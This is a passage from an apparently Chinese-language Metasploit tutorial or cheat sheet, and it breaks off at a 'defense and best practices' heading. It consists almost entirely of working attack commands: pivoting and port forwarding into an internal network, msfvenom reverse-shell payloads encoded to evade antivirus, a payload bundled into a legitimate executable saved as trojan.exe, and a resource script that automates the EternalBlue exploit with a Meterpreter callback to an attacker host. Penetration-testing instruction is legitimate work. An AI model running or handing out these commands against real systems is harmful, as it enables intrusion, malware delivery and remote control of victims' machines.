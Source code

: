 ### 网络操作
```bash
# 路由表
route

# 端口转发
portfwd add -l 3389 -p 3389 -r [目标内网IP]

# ARP扫描
run post/windows/gather/arp_scanner RHOSTS=192.168.2.0/24
```

## 高级技巧

### 绕过杀毒软件
```bash
# 使用编码器
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > payload.exe

# 捆绑程序
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -x legit.exe -f exe -o trojan.exe
```

### 多处理器
```bash
# 设置处理器
set PROCESSORS 5

# 使用资源脚本
resource /path/to/script.rc
```

### 自动化攻击
```bash
# 创建资源脚本
echo "use exploit/windows/smb/ms17_010_eternalblue" > attack.rc
echo "set RHOST 192.168.1.100" >> attack.rc
echo "set PAYLOAD windows/x64/meterpreter/reverse_tcp" >> attack.rc
echo "set LHOST 192.168.1.10" >> attack.rc
echo "set LPORT 4444" >> attack.rc
echo "exploit -j" >> attack.rc

# 执行资源脚本
msfconsole -r attack.rc
```

## 防御与最佳实践
